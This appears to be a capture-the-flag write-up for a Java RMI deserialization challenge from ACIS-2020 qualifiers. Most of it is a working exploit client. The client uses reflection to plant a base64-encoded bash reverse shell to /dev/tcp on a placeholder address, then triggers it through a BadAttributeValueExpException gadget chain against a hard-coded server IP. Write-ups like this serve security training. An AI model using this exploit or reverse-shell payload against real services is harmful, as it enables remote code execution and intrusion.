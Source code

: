 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Quals] ascis_rmi_v1"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,java,deserialization]
---
```


# [ACIS-2020-Quals] ascis_rmi_v1

![Player](img/p1.png)

## Description

- Source: [acis_rmi_v1](src/acis_rmi_v1)
- JDK version: [jdk-8u131-linux-x64.tar.gz](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)
- Hints:
  1.  `attacking-java-rmi-services-after-jep-290`
  2.  `tools can't help !!!`
  3.  `if you can deserialize arbitrary object, find a way to trigger rmi.Player.toString() method, ez RCE !`


## Solution

### Summary

The gadget chain in this challenge similars to [CommonsCollections5 gadget chain](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java). But it's a simpler version. The challenge has its own RCE endpoint - `Player.toString()`, so we just need setting `admin=true` and change logCommand to run remote commands.

![Player](img/p2.png)

### Decompiling

- Client: `jar -xf ascis_player.jar`
- Server: `jar -xf ascis_service1.jar`

### Building Client

Change, build and run `ASCISPlayer` (check comments for more details):

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.management.BadAttributeValueExpException;

/*
    Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                Player.toString()

*/

public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 1337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Java Reflection

        // Get Class Player and object Player
        Class cls = Player.class;
        Player player = new Player();

        // Set admin= true
        player.setAdmin(true);

        // Set cmd
        Field cmdlog = player.getClass().getDeclaredField("logCommand");
        cmdlog.setAccessible(true);
        // cmd ~= bash -i >& /dev/tcp/10.your.ip.address/4444 0>&1
        cmdlog.set(player,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC55b3VyLmlwLmFkZHJlc3MvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}");

        // Build payload
        BadAttributeValueExpException payload = new BadAttributeValueExpException(null);
        Field valfield = payload.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(payload, player); // ~= BadAttributeValueExpException(player)

        // Call login() to exploit
        System.out.println(ascisInterf.login(payload));

    }
}
```

![Player](img/p3.png)
